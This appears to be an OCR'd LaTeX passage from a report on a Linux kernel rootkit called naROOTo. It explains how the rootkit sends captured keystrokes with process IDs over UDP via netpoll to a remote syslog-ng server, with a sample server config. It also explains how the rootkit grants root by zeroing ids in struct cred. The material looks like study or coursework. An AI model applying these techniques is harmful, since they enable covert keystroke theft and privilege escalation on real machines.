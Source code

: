\documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
Once the structre is initialized, we call,
\begin{verbatim}
int netpoll_setup(struct netpoll *);
\end{verbatim} 

This function sets up everything needed for sending the keys. Now we need take the input keys, 
add the pid information of the terminal and send the keys using \texttt{netpoll\_send\_UDP} which looks like,

\begin{verbatim}
netpoll_send_UDP(np, sned_buf, send_len); 
\end{verbatim}

\texttt{Getting the PID information}: This was quite simple, as the \texttt{current} macro was quite handy in this situation.
\texttt{current} macro points to the \texttt{task\_struct} of the currently executing process. 
\texttt{task\_struct} has the \texttt{pid} member. 


\texttt{Setting up syslog-ng server}: One must set the \texttt{syslog-ng} server in the destination. 
The following steps are for setting the syslog-ng server on Ubuntu. 
\begin{itemize}
\item Install the syslog-ng server: sudo apt-get install syslog-ng

\item Add these entries in \texttt{syslog-ng.conf} file (you can find the file under /etc/syslog-ng/ folder)
\begin{verbatim}
source syslog_udp {
udp(port(514));
};
destination df_wrt0 {
file("/var/log/rootkit_log.log");
};
log {
source(syslog_udp);
destination(df_wrt0);
}
filter f_wrt0 {
host("Ip from you are getting the data");
};
log {
source(syslog_udp);
filter(f_wrt0);
destination(df_wrt0);
}
\end{verbatim}

\end{itemize}

\subsection{Privilege Escalation}
To grant superuser privileges to any shell, \texttt{naROOTo} manipulates the credentials of the particular process.
This is done by setting all ids to 0 in the corresponding \texttt{struct cred}.
The original values are stored to be able to return to regular privileges if necessary.

\begin{verbatim}
struct cred * prepare_creds();
commit_creds(struct cred *);
\end{verbatim}
\end{document}
